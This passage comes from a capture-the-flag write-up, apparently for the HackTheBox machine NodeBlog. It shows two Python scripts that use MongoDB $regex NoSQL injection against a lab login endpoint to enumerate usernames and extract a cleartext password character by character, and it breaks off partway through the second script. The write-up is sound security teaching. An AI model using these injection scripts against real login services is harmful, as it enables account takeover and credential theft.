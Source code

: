 ```

#!/usr/bin/env python3

import requests
import string

def brute_username(user):
    for c in string.ascii_lowercase:
        print(f'\r{user}{c:<50}', end='')
        payload = { 'user':
                       { '$regex' : f'^{user}{c}' },
                    'password': '0xdf'
                  }
        resp = requests.post('http://10.10.11.139:5000/login', json=payload)

        if 'Invalid Password' in resp.text:
            payload = {'user': f'{user}{c}', 'password': '0xdf'}
            resp = requests.post('http://10.10.11.139:5000/login', json=payload)
            if 'Invalid Password' in resp.text:
                print(f'\r{user}{c}')
            brute_username(f'{user}{c}')

brute_username('')
print('\r', end='')

```

It is a recursive function that tries the current string plus one new character and uses regex search to see if there’s a user that starts with that pattern. If there is, it checks if that new string is a valid user, and if so, prints it. It then continues checking for next characters either way. That’s important to catch if there’s both admin and administrator, for example.

It turns out there’s only one user, admin:

![](https://0xdfimages.gitlab.io/img/nodeblog-brute-users.gif)

I’ll write another quick script that will take a username and get the password. I originally skipped past this assuming that the password would be a hash I didn’t need yet. Only later did I find that it was a cleartext password that I needed to solve the box.

This time I know there’s only one valid password for the given user, so I can use a simple `while` loop until I find it:

```

#!/usr/bin/env python3

import requests
import string
import sys

user = sys.argv[1]
password = ''
found = False

while not found:
    for c in string.ascii_letters + string.digits + '!@#$%^&,':
        print(f'\r{password}{c:<50}', end='')
        payload = { 'user': user,
                    'password':
                       { '$regex' : f'^{password}{c}' },
                  }
        resp = requests.post('http://10.10.11.139:5000/login', json=payload)

        if not 'Invalid Password' in resp.text:
```